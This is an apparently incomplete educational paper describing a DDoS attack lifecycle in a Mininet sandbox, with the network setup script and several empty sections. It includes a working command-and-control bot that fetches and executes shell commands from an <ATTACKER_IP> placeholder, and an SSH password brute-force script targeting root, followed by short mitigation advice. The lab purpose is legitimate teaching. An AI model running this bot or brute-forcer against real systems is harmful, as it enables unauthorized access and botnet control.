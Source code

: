 ```yaml
---
title: "Anatomy of a DDoS Attack: From Host Infection to Service Denial"
authors:
  - STANISLAS Mélanie
  - BILLY Maxime
---
```


# Introduction

Understanding the mechanisms of Distributed Denial of Service (DDoS) attacks is crucial in cybersecurity. This paper explores the lifecycle of a DDoS attack, from the initial infection of hosts to the denial of service for a website. 

# Summary

1. [The Sandbox](#The-Sandbox)
2. [Building a simple virus](#Building-a-simple-virus)
2. [Host Compromise](#Host-Compromise)
3. [Launching the Attack](#Launching-the-Attack)
4. [Demo](#Demo)
5. [Forensics](#Forensics)

# The Sandbox

In this chapter, we describe the setup and tools used to emulate and monitor the DDoS attack environment.

## Network Emulation with Mininet

We use Mininet to create a virtual network for our DDoS attack simulation. Mininet allows us to emulate a realistic network topology with minimal hardware requirements.

### Network Topology

Our network topology consists of the following components:

- **1 Attacker Host** (red): This host first infects its victims and then controls them.

- **3 Compromised Hosts** (orange): These hosts are infected and used to generate attack traffic.

- **1 Server Host** (blue): The target of the DDoS attack.

- **1 Client Host** (green): This host attempts to connect to the server and experiences the effects of the DDoS attack.

The network topology can be visualized as follows:

![](https://raw.githubusercontent.com/ozeliurs/SDN-Security/main/papers/.assets/sandbox-network-diagram.jpg)

We create the network with the following python script:

```python
from mininet.net import Mininet
from mininet.node import Controller, OVSSwitch
from mininet.link import TCLink
from mininet.cli import CLI
from mininet.log import setLogLevel

def create_network():
    # Create a network
    net = Mininet(controller=Controller, link=TCLink, switch=OVSSwitch)
    
    # Add a controller
    net.addController('c0')
    
    # Add switches
    s1 = net.addSwitch('s1')
    s2 = net.addSwitch('s2')
    s3 = net.addSwitch('s3')
    
    # Add hosts and links to s1
    h1 = net.addHost('h1')
    h2 = net.addHost('h2')
    net.addLink(h1, s1, bw=200)
    net.addLink(h2, s1, bw=100)
    
    # Add hosts and links to s2
    h3 = net.addHost('h3')
    h4 = net.addHost('h4')
    net.addLink(h3, s2, bw=100)
    net.addLink(h4, s2, bw=100)
    
    # Add hosts and links to s3
    h5 = net.addHost('h5')
    h6 = net.addHost('h6')
    net.addLink(h5, s3, bw=100)
    net.addLink(h6, s3, bw=100)
    
    # Add links between switches
    net.addLink(s1, s2, bw=1000)
    net.addLink(s2, s3, bw=1000)
    
    # Start the network
    net.start()
    
    # Open the Mininet CLI
    CLI(net)
    
    # Stop the network
    net.stop()

if __name__ == '__main__':
    setLogLevel('info')
    create_network()
```

## Monitoring Tools

To monitor and analyze the network traffic and performance, we use `bwm-ng` (Bandwidth Monitor NG) to monitor the throughput on network interfaces. This helps us understand the volume of traffic generated during the attack.

We also use `tcpdump` to capture and analyze packets on the network. It provides detailed insights into the nature of the traffic and helps in understanding the attack patterns and the commands between compromised hosts and the command and control server.

# Building a simple virus

We will need to control the hosts in the future. To do so, we will create a simple virus that connects to a command and control server to receive commands.

```python
import time
import urllib.request
import subprocess

url = "http://<ATTACKER_IP>"

while True:
    response = urllib.request.urlopen(url)
    command = response.text.strip()

    if command:
        subprocess.call(command, shell=True)
    
    time.sleep(10)
```

This script runs indefinitely, it retrieves the command from the command and control server (`requests.get(url)`) and executes it (`subprocess.call(command, shell=True)`). The script then sleeps for 10 seconds between each command execution.

The idea is that the attacker can host a simple page that will be read by the virus to execute commands on the compromised hosts.

# Host Compromise

In this chapter, we describe examples of how hosts can be compromised and infected with malware to participate in a DDoS attack.

## Phishing

## Exploiting a Vulnerability (e.g., Log4j)

## Weak Passwords && Configuration

Finally, to compromise the last host we will take advantage of the weak password configured for an ssh server.

We can make a simple dictionary attack with the following script:

```python
import paramiko

host = "<SERVER_IP>"
username = "root"
passwords = ["root", "toor", "admin"]

for password in passwords:
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(host, port=22, username=username, password=password)
        print(f"Successfully connected to {host} with password: {password}")
        break
    except paramiko.AuthenticationException:
        print(f"Failed to connect to {host} with password: {password}")
```

This script tries to connect to the server with the provided passwords. If the connection is successful, it prints the password used to connect.

This shows the threat of weak passwords or weakly configured services in compromising hosts.

### Mitigation

To mitigate the risk of weak passwords, it is essential to enforce strong password policies.

Even better for SSH, you can use public key authentication and disable password authentication.

Finally, it is also recommended to use tools like `fail2ban` to block brute force attacks.

# Launching the Attack

# Demo

# Forensics

# Conclusion and Mitigation

# Sources